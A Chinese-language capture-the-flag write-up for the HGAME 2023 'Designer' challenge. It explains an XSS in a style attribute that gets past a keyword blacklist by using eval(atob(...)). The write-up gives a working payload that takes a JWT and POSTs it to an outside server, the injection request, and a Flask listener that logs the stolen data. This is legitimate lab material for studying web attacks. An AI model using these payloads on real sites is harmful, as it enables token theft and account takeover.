

## [HGAME 2023 week2]Designer

查看代码,只有本地登录的用户才能在JWT中拥有flag
<details>
<summary> button/share 路由代码 </summary>
```js
app.post("/button/share", auth, async (req, res) => {
    const browser = await puppeteer.launch({
    headless: true,
    executablePath: "/usr/bin/chromium",
    args: ['--no-sandbox']
    });
    const page = await browser.newPage()
    const query = querystring.encode(req.body)
    await page.goto('http://127.0.0.1:9090/button/preview?' + query)
    await page.evaluate(() => {
    return localStorage.setItem("token", "jwt_token_here")
    })
    await page.click("#button")
    
    res.json({ msg: "admin will see it later" })
})
```
</details>


题目的 `/button/share` 路由是打开浏览器访问 http://127.0.0.1:9090/button/preview 这个页面。这个页面也在代码的路由中，

<details>
<summary> button/preview 路由代码 </summary>
```js
app.get("/button/preview", (req, res) => {
  const blacklist = [
    /on/i, /localStorage/i, /alert/, /fetch/, /XMLHttpRequest/, /window/, /location/, /document/
  ]
  for (const key in req.query) {
    for (const item of blacklist) {
      if (item.test(key.trim()) || item.test(req.query[key].trim())) {
        req.query[key] = ""
      }
    }
  }
  res.render("preview", { data: req.query })
})
```
</details>

常见的注入点都被过滤了，比如onclick等，不过问题不大，查阅preview.ejs代码就很容易发现：

```html
	<a class="button" id="button" style="<% for (const key in data) {  %><%- key %>:<%- data[key] %> ;<% }; %>">
	CLICK ME
	</a>
```

按钮是通过字符串拼接的方式设置style的，因此，只需要有一个"就能将HTML语句截断，由于脚本中不能出现window等词语，因此，可以考虑使用atob函数解码字符串后，使用eval函数执行语句，构造的js脚本需要能获取localStorage中的内容，并上传到接收信息的服务器。以下是我构造的脚本：
<details>
<summary> xss脚本 </summary>
```js
async function r() {
    var a = new XMLHttpRequest();
    var b = new FormData();
    fetch('http://127.0.0.1:9090/user/register', {
        method: 'POST',
        body: { "username": "admin" }
    })
        .then(response => response.text())
        .then(data => {
            b.append('token', data);
            a.open('POST', "http://ctf.zichushi.cn:65502/a/stat.gif");
            a.send(b)
        })
}
r();
// 代码可能有点乱，我根据参考的writeup写的，fetch部分是gpt生成的
```
</details>

将上脚本base64编码，然后POST请求/button/share 接口，请求内容为：
```json
	{"border-radius":"\"><script>eval(atob('BASE64编码内容'))</script>"}
```

VPS中运行一个flask服务，接收请求
<details>
<summary> flask服务代码 </summary>
```python
from flask import Flask,request

app = Flask(__name__)

@app.route('/', defaults={'path': ''})
@app.route('/<path:path>', methods=['POST','GET'])
def catch_all(path):
    app.logger.info(request.get_data())
    return 'yes'
if __name__ == '__main__':
    app.run(debug=True,port=65502,host='0.0.0.0')
```

</details>

在vps中等着日志就行

最后将日志中获得的jwt解码一下，就获得flag

参考 [vvbbnn00师傅的writeup](https://blog.vvbbnn00.cn/archives/hgame2023week2-bu-fen-writeup)


